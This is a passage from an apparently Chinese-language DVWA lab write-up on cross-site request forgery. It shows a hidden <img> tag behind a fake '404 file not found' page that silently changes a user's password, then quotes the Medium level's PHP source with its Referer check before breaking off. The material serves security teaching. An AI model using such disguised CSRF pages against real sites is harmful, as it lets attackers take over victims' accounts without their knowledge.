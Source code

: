   点击"Submit request"，即可更改密码：

  ![image-20220504162249740](./Lab3_CSRF.assets/image-20220504162249740.png)



当然，也可以利用\<img\>标签伪造页面，让用户在不知情下访问，从而达到更改密码的目的

> 前提：此处使用get请求才能触发src

```html
<img src="http://dvwa.com/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#" style="display:none;"/>

<h1>404<h1>

<h2>file not found.<h2>
```



## Medium

### 源代码

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

```